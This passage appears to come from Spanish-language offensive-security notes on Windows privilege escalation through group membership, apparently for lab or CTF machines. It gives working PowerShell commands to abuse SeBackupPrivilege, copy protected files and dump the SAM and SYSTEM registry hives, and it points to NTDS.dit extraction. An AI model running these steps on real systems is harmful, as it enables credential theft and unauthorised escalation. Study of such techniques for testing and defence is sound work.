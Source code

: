 	$groups = [System.Security.Principal.WindowsIdentity]::GetCurrent().Groups |
	    ForEach-Object { $_.Translate([System.Security.Principal.NTAccount]) }
	
	foreach ($group in $groups) { if ($targetGroups -contains $group.Value) { Write-Output "Perteneces a: $($group.Value)" }}
	```
### Backup Operators
El grupo `Backup Operators` es **local**, no de dominio y `SeBackupPrivilege` no se "hereda" o propaga entre máquinas del dominio. Aún así, este grupo permite **leer cualquier archivo local del sistema** aunque no tenga permisos explícitos, aunque no de forma standard con el comando `cp` . Por defecto, este grupo está vacío. 
- Pertenencia al grupo
	```powershell
	# Comprobar si pertenecemos al grupo
	whoami /groups | findstr /i "backup"
	# Mostrar miembros del grupo
	net localgroup "Backup Operators"
	```
- La siguiente [Poc](https://github.com/giuliano108/SeBackupPrivilege) permite explotar este privilegio. Primero debemos importar las librerías en `PS` (debemos tener permisos de escritura en la carpeta en la que los descarguemos)
	```powershell
	Import-Module .\SeBackupPrivilegeUtils.dll
	Import-Module .\SeBackupPrivilegeCmdLets.dll
	```
- Comprobamos si tenemos el privilegio `SeBackupPrivilege` activado y lo activamos si es necesario
	```powershell
	whoami /priv
	# Si no está activado, lo activamos con 
	```
- Si no está activado y tenemos
	```powershell
	Set-SeBackupPrivilege
	# Comprobamos que está activado a continuación
	Get-SeBackupPrivilege
	```
- Una vez está activado, ya podemos copiar cualquier archivo protegido
	```powershell
	Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt ..\svc_backup\flag.txt
	# También podríamos volcar la SAM 
	reg.exe save hklm\sam C:\Users\public\sam.save
	reg.exe save hklm\system C:\Users\public\system.save
	```
- Si estuviéramos en un DC, podríamos volcar `NTDS.dit` siguiendo [estas instrucciones](https://github.com/k4sth4/SeBackupPrivilege). El ejemplo completo aparece en la máquina Zeus de offsec
### Event log readers
Nos permite acceder a los logs del sistema
- Pertenencia al grupo
	```powershell
	# Comprobar si pertenecemos al grupo
	whoami /groups | findstr /i "log"